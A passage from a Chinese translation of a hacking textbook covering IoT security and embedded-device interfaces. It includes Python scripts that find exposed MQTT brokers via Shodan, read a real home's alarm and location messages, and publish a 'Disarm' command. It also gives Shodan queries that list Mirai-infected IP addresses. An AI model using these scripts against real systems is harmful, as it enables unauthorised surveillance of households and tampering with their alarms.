    file1.close()
except shodan.APIError, e:
    pass

shodan_search()
root@kali:~#
```

接下来，我们运行 MQTT 搜索并观察结果：


```
root@kali:~# python mqtt-search.py
root@kali:~# wc -l mqtt-results.txt
56 mqtt-results.txt
root@kali:~# head mqtt-results.txt
141.255.46.14
42.120.17.118
118.122.20.9
217.63.24.87
120.113.69.51
114.55.39.219
151.27.103.165
58.42.224.105
23.99.124.29
77.69.18.228
root@kali:~#
```

## Lab 22-3: 玩转 MQTT

在上一个实验中，搜索字符串“mqtt alarm”被提供给 Shodan，以识别运行带有报警监听的 MQTT 的 IP 地址。在本实验中，我们扫描其中一个结果 IP 以获取更多信息。以下代码改编自 Victor Pasknel 的示例。16

```
root@kali:~# pip install paho-mqtt
Collecting paho-mqtt
  Downloading paho-mqtt-1.3.1.tar.gz (80kB)
    100% |████████████████████████████████| 81kB 102kB/s 
Building wheels for collected packages: paho-mqtt
  Running setup.py bdist_wheel for paho-mqtt ... done
  Stored in directory:
  /root/.cache/pip/wheels/20/d8/0d/acdc8f2890111b7be7de71deebef064
  fb83be0313dfff0493
Successfully built paho-mqtt
Installing collected packages: paho-mqtt
Successfully installed paho-mqtt-1.3.1
root@kali:~# cat mqtt-scan.py
import paho.mqtt.client as mqtt

①def on_connect(client, userdata, flags, rc):
    print "[+] Connection successful"
    client.subscribe('#', qos = 1) # Subscribes to all topics

②def on_message(client, userdata, msg):
    print '[+] Topic: %s - Message: %s' % (msg.topic, msg.payload)

③client = mqtt.Client(client_id = "MqttClient")
④client.on_connect = on_connect
⑤client.on_message = on_message
⑥client.connect('IP GOES HERE - MASKED', 1883, 30)
⑦client.loop_forever()
```

这个 Python 程序很简单：加载 mqtt.client 库后，程序为初始连接 ①（打印连接消息并订阅服务器上的所有主题）和消息接收 ②（打印消息）定义了回调函数。接下来，客户端被初始化 ③，回调函数被注册 ④⑤。最后，客户端被连接 ⑥（确保更改此行中的掩码 IP）并进入循环 ⑦。


注意 此处不涉及身份验证（不幸的是），因此在拍摄此电影期间没有小猫受到伤害！

接下来，我们运行 MQTT 扫描器：

```
root@kali:~# python mqtt-scan.py
[+] Connection successful
[+] Topic: /garage/door/ - Message: On
[+] Topic: owntracks/CHANGED/bartsimpson - Message:
{ "_type":"location","tid":"CHANGED","acc":5,"batt":100,"conn":"m","lat":-
47.CHANGED00,"lon":-31.CHANGED00,"tst":"CHANGED","_cp":true}
[+] Topic: home/alarm/select - Message: Disarm
[+] Topic: home/alarm/state - Message: disarmed
[+] Topic: owntracks/CHANGED/bartsimpson - Message:
{ "_type":"location","tid":"CHANGED","acc":5,"batt":100,"conn":"m","lat":-
47.CHANGED01,"lon":-31.CHANGED01,"tst":"MASKED","_cp":true}
[+] Topic: owntracks/CHANGED/bartsimpson - Message:
{ "_type":"location","tid":"CHANGED","acc":5,"batt":100,"conn":"m","lat":-
47.CHANGED02,"lon":-31.CHANGED02,"tst":"MASKED","_cp":true}
[+] Topic: owntracks/CHANGED/bartsimpson - Message:
{ "_type":"location","tid":"CHANGED","acc":5,"batt":100,"conn":"m","lat":-
47.CHANGED-3,"lon":-31.CHANGED03,"tst":"MASKED","_cp":true}
```

输出将在下一节中分析。

## 未经身份验证访问 MQTT 的影响

让我们惊讶的是，MQTT 扫描器的输出显示，该家庭不仅有报警信息（Disarmed），还有车库状态。此外，通过运行在用户手机上的诡异 OwnTracks 应用的神奇之处，我们知道主人不在家并且正在外出，因为每隔几秒就会提供新的 LAT/LONG 数据。这就像拥有一个警察扫描仪，告诉你主人多久才能回家。哇，这真可怕！更糟糕的是，某些家庭自动化系统允许写入，而不仅仅是读取。17 写入是通过 publish 命令完成的，因此你可以发布，而不是订阅。例如，我们可以向一个假系统发送假命令（实际上，它不存在；这只是一个示例）。


注意 在不属于你的系统上发布命令和更改配置可能会触犯某些法律红线，并肯定会越过道德红线，除非你获得授权来测试该系统。你已收到警告！

以下是我们的假系统示例（仅用于说明目的），再次改编自 Victor Pasknel 给出的示例。^18：

```
root@kali:~# cat mqtt-alarm.py
import paho.mqtt.client as mqtt
def on_connect(client, userdata, flags, rc):
    print " [+] Connection success"
    client.publish('home/alarm/set', "Disarm")
client = mqtt.Client(client_id = "MqttClient")
client.on_connect = on_connect
client.connect('IP GOES HERE', 1883, 30)
```

## IoT 蠕虫：这迟早会发生

2016 年底，攻击者对因记录多起黑客攻击的互联网记者 Brian Krebs 愤恨不已，并使用大规模分布式拒绝服务（DDOS）攻击将其击离线。^19 如今，DDOS 攻击并不罕见，但新的在于攻击方法。历史上第一次，一支由易受攻击的 IoT 设备（即摄像头）组成的大军被用于攻击。此外，DDOS 攻击通常是反射型攻击，攻击者试图通过利用需要简单命令请求并产生巨大响应的协议来放大攻击。在此案例中，这根本不是反射攻击——只是来自无数受感染主机的正常请求，产生了约 665 Gbps 的流量，几乎是之前记录的两倍。^20 攻击的发送端是互联网连接的摄像头，攻击者发现这些摄像头有默认密码。该蠕虫被命名为 Mirai，源自一部 2011 年的动漫系列，它使用包含 60 多个不同供应商常见默认密码的表格登录基于互联网的摄像头。该蠕虫小心地避开了美国邮政局和国防部的 IP 地址，但其他所有目标都在攻击范围之内。^21 托管 Krebs 网站的服务器毫无机会，即使是他们的托管服务商 Akamai（以防护 DDOS 攻击而闻名）也在 reportedly 痛苦的审议后放弃了他。^22 Mirai 蠕虫还攻击了其他目标，成为当时最臭名昭著的蠕虫，引起广泛关注并造成全球担忧。后来，Mirai 感染的主机被用于利用路由器中的其他漏洞，扩展了原始漏洞的威胁。^23

最终，模仿者加入其中，许多 Mirai 变种应运而生。24 源代码发布后，受感染主机数量几乎翻了一番，达到 493,000 个。25

在撰写本文时，攻击者越来越多地开始瞄准 IoT 设备。攻击者不再检查默认密码；IoT Reaper 蠕虫的作者正在利用漏洞，使数以百万计的在线摄像头处于易受攻击状态。26 可以肯定的是：正如本章所示，IoT 设备无处可藏。如果它们连接到互联网，就会被发现。

## Lab 22-4: Mirai 依然活跃

即使与 Mirai 斗争了一年多，许多受感染的主机仍在线。使用 Shodan，我们可以搜索 Mirai 感染的主机：

```
root@kali:~# shodan search --fields ip_str,port,org,hostnames category:mirai > results2.txt
root@kali:~# head results2.txt
67.138.130.150 23 Integra Telecom
177.23.74.135 21 Provedor de Serviços de Internet Ltda 177-23-74-
135.interminas.com.br
67.136.194.9 23 Integra Telecom
173.49.87.180 443 Verizon Fios pool-173-49-87-180.phlapa.fios.verizon.net
173.210.32.165 23 EarthLink static-173-210-32-
165.ngn.onecommunications.net
63.131.121.233 23 EarthLink static-63-131-121-
233.mil.onecommunications.net
67.51.126.114 23 Integra Telecom
70.99.115.150 23 Integra Telecom
72.248.24.48 23 EarthLink static-72-248-24-48.ct.onecommunications.net
173.210.124.67 23 EarthLink static-173-210-124-
67.ngn.onecommunications.net
```

## 预防

既然你已经看到了互联网上无身份验证开放系统的影响，以下是一些实用建议：黑客攻击你自己。说真的，Shodan 有许多免费搜索，那么为什么不在别人之前利用这项服务呢？使用 www.whatismyip.com 或类似服务搜索你的家庭 IP 地址，以及你的家人、企业或任何你认识之人的 IP 地址。另一个你应该了解的宝贵资源是 BullGuard 的物联网扫描器（请参阅“进一步阅读”部分）。它允许你扫描家庭网络，查看你是否在 Shodan 中。

## 总结

在本章中，我们讨论了构成 IoT 的日益增多的互联网连接事物，并讨论了它们使用的网络协议。接下来，我们探索了专门用于查找 IoT 设备的 Shodan 搜索引擎。最后，我们讨论了迟早会发生的事情：IoT 蠕虫的出现。阅读本章后，你应该做好更充分的准备


识别、保护和捍卫您的 *事物* 以及您的朋友、家人和客户的事物。

## 进一步阅读

- “利用 PLC 编程信息区分面向互联网的设备” https://www.hsdl.org/?abstract&did=757013
- 由 BullGuard 提供的物联网扫描仪 https://iotscanner.bullguard.com/
- NIST 特别出版物 800-82，修订版 2，“工业控制系统 (ICS) 安全指南” http://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-82r2.pdf
- “定量评估与可视化工业系统攻击面” https://www.cl.cam.ac.uk/~fms27/papers/2011-Leverett-industrial.pdf

## 参考文献

- 1. X. Xu, “服务创新中的物联网,” *The Amfiteatru Economic Journal*, 4(6, 2012年11月): 698–719.
- 2. M. Swan, “传感器狂热！物联网、可穿戴计算、客观度量与量化自我 2.0,” *Journal of Sensor and Actuator Networks*, 1(3, 2012年11月8日): 217–253.
- 3. D. Evans, “物联网：互联网下一进化如何改变一切 [互联网],” Cisco, 2011年4月, https://www.cisco.com/c/dam/en_us/about/ac79/docs/innov/IoT_IBSG_0411FINAL
- 4. *The Economist*, “物联网（将被黑客攻击）,” 2014年7月12日, https://www.economist.com/news/leaders/21606829-hooking-up-gadgets-web-promises-huge-benefits-security-must-not-be.
- 5. A. Harper, “消费者安全意识对物联网采用的影响：一项相关性研究,” 博士论文, Capella University, 2016, https://pqdtopen.proquest.com/doc/1853097232.html?FMT=ABS.
- 6. D. Bandyopadhyay, J. Sen, “物联网：技术与标准化中的应用与挑战,” *Wireless Personal Communications*, 58(1, 2011年5月): 49–69.
- 7. Harper, “消费者安全意识对物联网采用的影响.”
- 8. Z. Chen, F. Xia, T. Huang, F. Bu, and H. Wang, “物联网定位方法,” *The Journal of Supercomputing*, 63(3, 2013年3月): 657–674.
- 9. H. Jayakumar, K. Lee, W. Lee, A. Raha, Y. Kim, and V. Raghunathan, “为物联网供电,” 收录于《2014年低功耗电子与设计国际研讨会论文集》, ACM, 2014, 375–380, http://doi.acm.org/10.1145/2627369.2631644.
- 10. Zigbee, Wikipedia, 2017, https://en.wikipedia.org/w/index.php?title=Zigbee&oldid=809655996.
- 11. Harper, “消费者安全意识对物联网采用的影响.”
- 12. H. Jayakumar, 等人, “为物联网供电.”
- 13. J. Sarto, “用于传感器网络的 ZigBee 与 6LoWPAN 对比,” LSR, https://www.lsr.com/white-papers/zigbee-vs-6lowpan-for-sensor-networks.
- 14. S. Schneider, “理解物联网背后的协议,” Electronic Design, 2013年10月9日, www.electronicdesign.com/iot/understanding-protocols-behind-internet-things.
- 15. J. Matherly, Shodan完全指南：收集。分析。可视化。让互联网情报为你所用, Lean Publishing, 2017.
- 16. V. Pasknel, “使用 MQTT 黑客攻击物联网,” Morphus Labs, 2017年7月19日, https://morphuslabs.com/hacking-the-iot-with-mqtt-8edaf0d07b9b.
- 17. Pasknel, “使用 MQTT 黑客攻击物联网.”
- 18. Pasknel, “使用 MQTT 黑客攻击物联网.”
- 19. Mirai（恶意软件）, Wikipedia, 2017, https://en.wikipedia.org/w/index.php?title=Mirai_(malware)&oldid=807940975.
- 20. S. M. Kerner, “DDoS攻击正朝1太比特纪录迈进,” eWEEK, 2016年9月25日, www.eweek.com/security/ddos-attacks-heading-toward-1-terabit-record.
- 21. Mirai（恶意软件）, Wikipedia.
- 22. Kerner, “DDoS攻击正朝1太比特纪录迈进.”
- 23. C. Farivar, “计算机科学学生认罪创建 Mirai 僵尸网络,” Mirai | Tim’s Tablet Web Site, 2017年10月13日, http://tablets.yourfree.wordpress.com/?tag=mirai.
- 24. B. Krebs, “新 Mirai 蠕虫让90万德国用户离线,” Krebs on Security, 2016年11月16日, https://krebsonsecurity.com/2016/11/new-mirai-worm-knocks-900k-germans-offline/.
- 25. M. Mimoso, “Mirai僵尸网络数量自源代码发布以来翻了一倍多,” 2016年10月19日, https://threatpost.com/mirai-bots-more-than-double-since-source-code-release/121368/.
- 26. T. Fox-Brewster, “大量 IoT 摄像头存在可被黑客攻击的漏洞——下一次网络危机即将来临,” Forbes, 2017年10月23日, https://www.forbes.com/sites/thomasbrewster/2017/10/23/reaper-botnet-hacking-iot-cctv-iot-cctv-cameras/.

## 嵌入式设备剖析

本章对嵌入式设备提供了高层次的视图，旨在提供相关词汇以及对潜在关注领域的高层次理解。嵌入式设备是满足特定需求或具有有限功能的电气或机电设备。嵌入式设备的示例包括安防系统、网络路由器/交换机、摄像头、车库门开启器、智能恒温器、可控灯泡和手机。随着我们的设备为了便利性而获得远程连接功能，它们也为攻击者通过我们的网络进入我们的生活提供了更多机会。

本章大部分讨论都围绕集成电路（IC）展开。IC 是指封装在小型外壳内的电气元件集合，通常称为 _芯片_。一个简单的示例是四路双输入 OR<sup>1</sup> 门 IC，其中四个双输入 OR 电路被实现在单个芯片内。在我们的情况中，IC 将复杂得多，并在单个 IC 内包含整个多计算元件。另请注意，本章假设您熟悉万用表以及电气电路的基本概念，例如电压、电流、电阻和接地。

本章将讨论以下主题：

- CPU
- 串行接口
- 调试接口
- 软件

### CPU

与大多数人熟悉的台式机系统不同，嵌入式世界基于嵌入式功能、系统所需复杂性、价格、功耗、性能和其他考虑因素，使用许多不同的处理架构。由于嵌入式系统通常具有更明确的功能，它们往往更适合更可量化的性能要求。因此，会使用一系列软件和硬件要求来确定合适的微处理器、微控制器或片上系统（SoC）。

### 微处理器

微处理器不包含芯片内部的内存或程序存储。基于微处理器的设计可以利用大量内存和存储，并可以运行诸如 Linux 之类的复杂操作系统。普通 PC 是利用基于微处理器设计的设备的示例。

### 微控制器

微控制器在嵌入式世界中很常见。微控制器通常在单个芯片内集成 CPU 核心（或多个核心）、内存、存储和 I/O 端口。微控制器非常适合执行简单或明确定义的低性能应用的高度嵌入式设计。由于应用程序和硬件的简单性，微控制器上的软件通常使用汇编或 C 等低级语言编写，并且不包含操作系统（OS）。微控制器的应用示例包括电子门锁和电视遥控器。

根据特定微控制器，可以在硬件中实现保护机制以帮助保护应用程序。示例包括对程序存储的读取保护以及禁用片上调试接口激活。虽然这些保护提供了一层防护，但无法保证这些保护不会被绕过。

### 片上系统 (SoC)

片上系统（SoC）是在单个 IC 内集成一个或多个微处理器内核或微控制器以及各种集成硬件特性的系统。例如，手机的 SoC 可能包含图形处理单元（GPU）、声音处理器、内存管理单元（MMU）、蜂窝网络控制器和网络控制器。SoC 的主要优势是由于芯片更少、应用尺寸更小而降低成本。这些通常以更定制化的方式使用。与微控制器将程序存储在内部并提供有限内存不同，SoC 通常利用外部存储和内存。

### 常见处理器架构

尽管存在许多微控制器架构，例如 Intel 8051、Freescale (Motorola) 68HC11 和 Microchip PIC，但 ARM 和 MIPS 两种架构在联网设备中出现得多得多。在使用反汇编器、构建工具和调试器等工具时，了解处理器架构非常重要。处理器架构通常可以通过目视检查电路板并定位处理器来识别。

ARM 是一种授权架构，被德州仪器（Texas Instruments）、Apple、三星（Samsung）等众多微处理器、微控制器和 SoC 制造商使用。ARM 内核根据预期应用程序以多个配置文件（profile）进行授权。ARM 内核既有 32 位也有 64 位架构，并可配置为大端或小端字节序。表 23-1 说明了通常使用这些配置文件及其应用。


| 配置文件 | 描述 | 示例应用 |
|---|---|---|
| 应用型 | 这些配置文件中功能最强大的一种。其主要区别特征是 MMU，使其能够运行功能丰富的操作系统，例如 Linux 和 Android。 | 手机 平板电脑 机顶盒 |
| 实时型 | 专为需要实时性能特征的应用而设计。具有低中断延迟和内存保护功能。它不包含 MMU。 | 网络路由器和交换机 摄像头 汽车 |
| 微控制器型 | 专为对尺寸和性能要求较低的高度嵌入式系统而设计。具有低中断延迟、内存保护和嵌入式内存功能。 | 工业控制 可编程灯具 |

表 23-1 ARM 配置文件²

MIPS 目前由 Tallwood MIPS, Inc. 拥有，但已授权给包括 Broadcom、Cavium 等在内的多个制造商。³ 与 ARM 类似，MIPS 有 32 位和 64 位变体，可以以大端或小端模式运行。它通常见于无线接入点和小型家用路由器等网络设备中。

## 串行接口

串行接口通过通信通道一次一位、串行地与对等设备通信。由于一次只传输一位，因此 IC 所需的引脚更少。相比之下，并行接口通信一次传输多位，并需要更多引脚（每位一个引脚）。嵌入式系统中使用多种串行协议，但我们将仅讨论通用异步收发传输器（UART）、串行外设接口（SPI）和集成电路互连（I²C）协议。

## UART

通用异步收发传输器（UART）协议允许两个设备通过通信通道进行串行通信。UART 常用于连接控制台，以便人类与设备交互。尽管大多数设备没有可用于串行通信的外部可用接口，但许多设备在开发和测试期间会使用内部接口。在进行设备测试时，我在内部可访问的串行接口上发现了经过身份验证和未经过身份验证的控制台。UART 通信需要三个引脚，通常以四引脚一组的形式出现（参见图 23-1）。您可能会在板上看到标签，但通常这些焊盘或排针没有标签，需要被发现。尽管图 23-1 显示了一个很好的示例，其中排针作为串行通信的候选项非常突出，但引脚布局可能并不总是那么直观，并可能混杂在大量引脚中。


图 23-1 Ubiquiti ER-X 上未标记的四串口组

定位并连接内部串行端口的主要原因是尝试查找原本不打算向系统用户公开的信息。例如，Web 界面通常无法直接访问文件系统，但基于 Linux 的系统上的串行控制台将使用户能够访问文件系统。当串行端口经过身份验证时，您将不得不暴力破解凭据，或尝试通过修改启动过程（可能使用 JTAG 调试端口）来绕过身份验证。

要发现串行焊盘，可以使用由 Joe Grand 开发的 JTAGulator 等工具对信号进行暴力破解，从而得出焊盘布局和波特率。以下是在图 23-1 所示的 Ubiquiti ER-X 上运行 UART 识别测试的示例，其中使用 JTAGulator 识别了带标签的引脚。涉及的步骤如下：

- 1. 通过检查电路板，定位您认为可能是 UART 的排针或焊盘。
  （在电路板上看到两到四个焊盘/引脚组合在一起是个好迹象，但如前所述，它们可能与其他功能焊盘/引脚混杂在一起。）
- 2. 通过使用万用表探测电路板或识别 IC 并查阅数据手册来发现目标电压。
- 3. 通过测量已知接地点（例如机箱接地）与易于连接的引脚之间的电阻（欧姆）来发现易于连接的地（已知接地点与问题引脚之间的电阻实际上为 0 欧姆）。
- 4. 如果您有幸找到排针，请将电路板连接到 JTAGulator，或将排针焊接到电路板上然后再连接（参见图 23-2）。


图 23-2 JTAGulator 与 Ubiquiti ER-X 之间的连接

- 5. 验证 JTAGulator 固件版本 ①。可以通过 https://github.com/grandideastudio/jtagulator/releases 存储库中的代码检查版本。如果版本不是最新的，请按照 www.youtube.com/watch?v=xlXwy-weG1M 中的说明操作。
- 6. 启用 UART 模式 ② 并设置目标电压 ③。
- 7. 运行 UART 识别测试 ④。
- 8. 成功后，查找合理的响应，例如回车或换行 ⑤（0D 或 0A）。
- 9. 以波特率候选项 ⑦（我们的情况为 57600）运行直通模式 ⑥ 以验证已识别的设置。

```
< ... Omitted ASCII ART ...>
  Welcome to JTAGulator. Press 'H' for available commands.
  Warning: Use of this tool may affect target system behavior!

> h
Target Interfaces:
J   JTAG/IEEE 1149.1
U   UART/Asynchronous Serial
G   GPIO

General Commands:
V   Set target I/O voltage (1.2V to 3.3V)
I   Display version information
H   Display available commands
```

```
①> i
JTAGulator FW 1.4
Designed by Joe Grand, Grand Idea Studio, Inc.
Main: jtagulator.com
Source: github.com/grandideastudio/jtagulator
Support: www.parallax.com/support
②> u
③UART> v
Current target I/O voltage: Undefined
Enter new target I/O voltage (1.2 - 3.3, 0 for off): 3.3
New target I/O voltage set: 3.3
Ensure VADJ is NOT connected to target!

④UART> u
UART pin naming is from the target's perspective.
Enter text string to output: (prefix with \x for hex) [CR]:
Enter starting channel [0]:
Enter ending channel [1]:
Possible permutations: 2
Press spacebar to begin (any other key to abort)...
JTAGulating! Press any key to abort...
-
<... Omitted lower baud rates ...>
TXD: 1
RXD: 0
Baud: 9600
Data: `.]!Hv.Sk..... [ 60 FC 5D 84 21 48 76 AF 53 6B 1A 92 0A EF FF 1F ]

TXD: 1
RXD: 0
Baud: 14400
Data: {...../B+f{.*J.Z. [ 7B 09 DE 8A DA 2F 42 2B 66 7B DB 2A 4A 99 5A 10 ]

TXD: 1
RXD: 0
Baud: 19200
Data: T.W...*.q.Q... [ 54 81 C6 57 B9 19 CE 2A 9A 71 EE 00 51 18 EA 19 ]

TXD: 1
RXD: 0
Baud: 28800
Data: ....[H.g.)oI.L. [ 9D 08 E2 0A 5B 48 88 0C 67 F2 29 6F 31 1D 4C 0C ]

TXD: 1
RXD: 0
Baud: 31250
Data: ..[+t>.6"_. ..z [ F4 C2 5B 2B B9 74 3E 95 36 22 03 5F 20 82 DF 7A ]

TXD: 1
RXD: 0
Baud: 38400
Data: ..9 3SdWV./...h0 [ F9 FC 39 20 33 53 64 57 56 05 2F 8D B5 B7 68 30 ]

TXD: 1
RXD: 0
Baud: 57600
⑤Data: .. [ 0D 0A ]

TXD: 1
RXD: 0
Baud: 76800
Data: . [ 0C ]
```

```
TXD: 1
RXD: 0
Baud: 115200
Data: . [ F8 ]
<... Omitted Higher Baud Rates ...>
```

```
⑥UART> p
UART pin naming is from the target's perspective.
Enter X to disable either pin, if desired.
Enter TXD pin [1]:
Enter RXD pin [0]:
⑦Enter baud rate [0]: 57600
Enable local echo? [y/N]: y
Entering UART passthrough! Press Ctrl-X to abort...
```

## 欢迎使用 EdgeOS ubnt ttyS1

登录、访问或使用 Ubiquiti 产品即表示您已阅读并理解 Ubiquiti 许可协议（默认在 Web UI 中可用，网址为 http://192.168.1.1），并同意受其条款约束。

如果测试成功，现在您应该能够与串行控制台交互。
在连接串行控制台的情况下重置设备通常可以揭示大量信息。文本太长，无法在此处包含，因此我提供了启动消息的片段：

- 处理器是 MT-7621A（MIPS）：
  ASIC MT7621A DualCore（MAC 到 MT7530 模式）
- 可以通过 U-Boot 重新编程：
  请选择操作：
  1: 通过 TFTP 将系统代码加载到 SDRAM。
  2: 加载系统代码，然后通过 TFTP 将其写入 Flash。
  3: 通过 Flash 启动系统代码（默认）。
  4: 进入启动命令行界面。
  7: 加载引导加载程序代码，然后通过串行接口将其写入 Flash。
  9: 加载引导加载程序代码，然后通过 TFTP 将其写入 Flash。
  default: 3
- 正在运行 Linux 版本 3.10.14-UBNT：
  Linux version 3.10.14-UBNT (root@edgeos-builder2) (gcc version 4.6.3 (Buildroot 2012.11.1) ) #1 SMP Mon Nov 2 16:45:25 PST 2015
- MTD 分区有助于理解存储布局：
  在 "MT7621-NAND" 上创建 7 个 MTD 分区：
  0x000000000000-0x000000ff80000 : "ALL"
  0x000000000000-0x0000000080000 : "Bootloader"
  0x0000000080000-0x00000000e0000 : "Config"
  0x00000000e0000-0x0000000140000 : "eeprom"
  0x000000140000-0x0000000440000 : "Kernel"
  0x000000440000-0x0000000740000 : "Kernel2"
  0x000000740000-0x000000ff00000 : "RootFS"
  [mtk_nand] probe successfully!


一旦布局确定，您可以使用诸如 Bus Pirate 之类的工具连接到焊盘并与嵌入式系统通信。主要需要记住的是，将设备上的 TX 连接到 Bus Pirate 的 RX，并将设备上的 RX 连接到 Bus Pirate 的 TX。

与 JTAG 接口一样，有些人可能会低估在设备上启用串行端口的严重性。但是，通过控制台访问，攻击者可以提取配置和二进制文件，安装工具，并查找有助于针对此类所有设备进行远程攻击的全局密钥。

## SPI

串行外设接口（SPI）是一种全双工同步串行接口，广泛应用于嵌入式系统。与 UART 不同，SPI 的设计目的是允许两个或多个设备之间进行通信。SPI 是一种短距离协议，用于嵌入式系统内部 IC 之间的通信。该协议使用主/从架构并支持多个从设备。⁴ 在最简单的形式中，SPI 需要四个引脚进行通信，这使其与 UART 示例相当，但通信速度更快（以距离为代价）。需要注意的是，SPI 没有标准化，⁵ 需要查阅数据手册以确定每个设备的确切行为。四个引脚如下：

- SCK 串行时钟
- MOSI 主输出从输入
- MISO 主输入从输出
- SS 或 CS 从/片选（由主设备输出以寻址从设备；低电平有效）

对于只有少数从设备的系统，主设备通常使用专用片选来寻址每个从设备。由于需要额外的片选，这需要更多的引脚/走线并增加系统成本。例如，采用此配置且有三个从设备的系统需要微控制器上的六个引脚（参见图 23-3）。


图 23-3 带有单独片选的三芯片配置中的 SPI

多从设备的另一种常见配置是菊花链。⁶ 如图 23-4 所示，菊花链配置通常用于主设备不需要接收数据的应用（例如 LED），或者从设备数量较多的情况。由于芯片 1 的输出连接到芯片 2 的输入，以此类推，主设备与预期接收者之间存在与芯片数量成正比的延迟。


图 23-4 使用菊花链的三芯片配置中的 SPI

SPI 协议的常见用途是访问 EEPROM（电可擦除可编程只读存储器）和闪存设备。通过使用 Bus Pirate 和 flashrom（或类似工具），您应该能够提取 EEPROM 或闪存设备的内容。然后可以分析内容以定位文件系统并查找密钥。

## I²C

集成电路间总线，读作 I-squared-C，写作 I²C，是一种多主多从分组化串行通信协议。它比 SPI 慢，但仅使用两个引脚而不是三个，外加每个从设备的片选。与 SPI 类似，I²C 用于板上 IC 之间的短距离通信，但也可用于布线。与 SPI 不同，I²C 是官方规范。

尽管支持多个主设备，但它们不能相互通信，也不能同时使用总线。要与特定设备通信，主设备使用地址数据包，后跟一个或多个数据包。两个引脚如下：

- SCL 串行时钟
- SDA 串行数据

从图 23-5 可以看出，SDA 引脚是双向的，并由所有设备共享。此外，SCL 引脚由已获得数据总线的主设备驱动。


图 23-5 两主三从示例配置

与 SPI 类似，I²C 常用于与 EEPROM 或 NVRAM（非易失性随机存取存储器）通信。通过使用类似 Bus Pirate 的工具，您可以转储内容以进行离线分析或写入新值。

## 调试接口

而在运行 Windows 或 Linux 的计算机上调试应用程序相对容易，只需使用软件调试器附加到进程即可，但嵌入式系统面临许多障碍，使这种过程变得稍微棘手一些。例如，当没有操作系统或操作系统未启动时，如何调试嵌入式系统？

现代嵌入式系统在潜在元件密集的电路板上也包含许多复杂的 IC，且很难访问芯片上的引脚。幸运的是，对于开发人员和测试人员来说，硬件制造行业开发了用于访问 IC 内部以进行测试、调试和将固件写入非易失性存储器的方法，以及许多其他用途。

## JTAG

联合测试行动组（JTAG）在 20 世纪 80 年代创建，作为一种便于调试和测试 IC 的方法。1990 年，该方法被标准化为 IEEE 1149.1，但通常简称为 JTAG。⁸ 虽然最初是为了帮助进行板级测试而创建的，但其功能允许在硬件级别进行调试。

虽然这是一种过度简化，但 JTAG 定义了一种机制，即利用少数几个外部可访问信号，通过标准化状态机访问 IC 内部。该机制是标准化的，但其背后的实际功能是 IC 特定的。这意味着您必须了解正在调试的 IC 才能有效使用 JTAG。例如，发送给 ARM 处理器和 MIPS 处理器的位序列将由处理器的内部逻辑以不同方式解释。OpenOCD 等工具需要特定于设备的配置文件才能正常运行。尽管制造商可能会定义更多引脚，但四/五引脚 JTAG 描述如表 23-2 所示。引脚集合也称为测试访问端口（TAP）。

| 引脚 | 描述 |
|---|---|
| TCK（测试时钟） | 测试时钟引脚用于将数据时钟输入到目标的 TDI 和 TMS 输入。时钟为调试器和设备之间的同步提供手段。 |
| TMS（测试模式选择） | 测试模式选择引脚用于设置目标上的测试访问端口（TAP）控制器的状态。 |
| TDI（测试数据输入） | 测试数据输入引脚在调试期间向目标提供串行数据。 |
| TDO（测试数据输出） | 测试数据输出引脚在调试期间从目标接收串行数据。 |
| TRST（测试复位） | （可选）测试复位引脚可用于重置处理器的 TAP 控制器，以便进行调试。 |

表 23-2 四/五引脚 JTAG 接口描述

尽管您可能认为五个引脚会有标准布局，但板载和 IC 制造商会定义自己的布局。表 23-3 定义了一些常见的引脚定义，包括 10 引脚、14 引脚和 20 引脚配置。表中的引脚定义仅为示例，在用于调试器之前需要进行验证。

| 引脚 | 14 引脚 ARM | 20 引脚 ARM | TI MSP430 | MIPS EJTAG |
|---|---|---|---|---|
| 1 | VRef | VRef | TDO | nTRST |
| 2 | GND | VSupply | VREF | GND |
| 3 | nTRST | nTRST | TDI | TDI |
| 4 | GND | GND | — | GND |
| 5 | TDI | TDI | TMS | TDO |
| 6 | GND | GND | TCLK | GND |
| 7 | TMS | TMS | TCK | TMS |
| 8 | GND | GND | VPP | GND |
| 9 | TCK | TCK | GND | TCK |
| 10 | GND | GND | — | GND |
| 11 | TDO | RTCK | nSRST | nSRST |
| 12 | nSRST | GND | — | — |
| 13 | VREF | TDO | — | DINT |
| 14 | GND | GND | — | VREF |
| 15 | | nSRST | | |
| 16 | | GND | | |
| 17 | | DBGRQ | | |
| 18 | | GND | | |
| 19 | | DBGAK | | |
| 20 | | GND | | |

表 23-3 典型 JTAG 引脚定义 9,10

对于开发人员和测试人员，通常使用以下功能：

- 调试期间暂停处理器
- 读取和写入内部程序存储器（当代码存储在微控制器内部时）
- 读取和写入闪存（固件修改或提取）
- 读取和写入内存
- 修改程序流以绕过功能以获取受限访问权限

如您所见，JTAG 接口可用的功能非常强大。


设备制造商陷入两难。在嵌入式系统的整个生命周期内进行开发、测试和调试，JTAG 接口必不可少；然而，它在电路板上的存在使研究人员和攻击者能够发现秘密、篡改行为并发现漏洞。制造商通常会在生产后尝试通过切断走线、不安装引脚、不标记引脚分配或使用芯片功能禁用它，来增加使用 JTAG 接口的难度。虽然这相当有效，但决心攻击的攻击者拥有许多手段来绕过保护，包括修复损坏的走线、在电路板上焊接引脚，甚至可能将 IC 运送到专门从事数据提取的公司。

有些人可能会因为使用 JTAG 需要物理访问（可能具有破坏性）而将其视为弱点并加以忽视。忽视该攻击的问题在于，攻击者可以通过 JTAG 了解系统的大量信息。如果系统中存在全局密钥，例如密码、用于支持的故意后门、密钥或证书，则可能会被提取并随后用于攻击远程系统。

## SWD (串行线调试)

串行线调试 (SWD) 是 ARM 特有的调试和编程协议。与更常见的五引脚 JTAG 不同，SWD 使用两个引脚。SWD 提供一个时钟 (SWDCLK) 和一个双向数据线 (SWDIO) 来提供 JTAG 的调试功能。如表 23-4 所示，SWD 和 JTAG 可以共存，¹¹ 这一点值得注意。

| 引脚 | 10 针 ARM Cortex SWD 和 JTAG¹² | 20 针 ARM SWD 和 JTAG¹³ |
|---|---|---|
| 1 | VRef | VRef |
| 2 | SWDIO / TMS | VSupply |
| 3 | GND | nTRST |
| 4 | SWDCLK / TCK | GND |
| 5 | GND | TDI / NC |
| 6 | SWO / TDO | GND |
| 7 | KEY | TMS / SWDIO |
| 8 | TDI / NC | GND |
| 9 | GND 检测 | TCK / SWDCLK |
| 10 | nRESET | GND |
| 11 | | RTCK |
| 12 | | GND |
| 13 | | TDO / SWO |
| 14 | | GND |
| 15 | | nSRST |
| 16 | | GND |
| 17 | | DBGRQ |
| 18 | | GND |
| 19 | | DBGAK |
| 20 | | GND |

